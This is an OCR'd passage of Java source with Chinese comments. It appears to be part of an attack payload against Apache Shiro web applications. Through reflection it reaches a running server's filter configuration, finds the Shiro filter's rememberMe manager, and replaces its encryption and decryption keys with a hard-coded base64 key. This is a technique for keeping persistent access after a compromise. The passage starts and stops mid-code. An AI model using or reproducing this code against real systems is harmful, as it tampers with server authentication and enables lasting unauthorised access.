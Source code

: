       6.         field.setAccessible(true);
    
      7.         obj = field.get(obj);
    
      8.         field = obj.getClass().getDeclaredField("context");
    
      9.         field.setAccessible(true);
    
      10.         obj = field.get(obj);
    
      11.         //获取filterConfigs属性
    
      12.         field = obj.getClass().getSuperclass().getDeclaredField("filterConfigs");
    
      13.         field.setAccessible(true);
    
      14.         obj = field.get(obj);
    
      15.         java.util.HashMap<String, Object> objMap = (java.util.HashMap<String, Object>) obj;
    
      16.         //遍历filterConfigs
    
      17.         java.util.Iterator<Map.Entry<String, Object>> entries = objMap.entrySet().iterator();
    
      18.         while (entries.hasNext()) {
    
      19.             Map.Entry<String, Object> entry = entries.next();
    
      20.             //检测key是否为shiroFilterFactoryBean
    
      21.             if (entry.getKey().equals("shiroFilterFactoryBean")) {
    
      22.                 obj = entry.getValue();
    
      23.                 field = obj.getClass().getDeclaredField("filter");
    
      24.                 field.setAccessible(true);
    
      25.                 obj = field.get(obj);
    
      26.                 field = obj.getClass().getSuperclass().getDeclaredField("securityManager");
    
      27.                 field.setAccessible(true);
    
      28.                 obj = field.get(obj);
    
      29.                 field = obj.getClass().getSuperclass().getDeclaredField("rememberMeManager");
    
      30.                 field.setAccessible(true);
    
      31.                 obj = field.get(obj);
    
      32.                 //通过反射调用setEncryptionCipherKey修改加密key
    
      33.                 java.lang.reflect.Method setEncryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setEncryptionCipherKey", new Class[]{byte[].class});
    
      34.                 byte[] bytes = this.base64Decode("FcoRsBKe9XB3zOHbxTG0Lw==");
    
      35.                 setEncryptionCipherKey.invoke(obj, new Object[]{bytes});
    
      36.                    //通过反射调用setDecryptionCipherKey修改解密key
    
      37.                 java.lang.reflect.Method setDecryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setDecryptionCipherKey", new Class[]{byte[].class});
    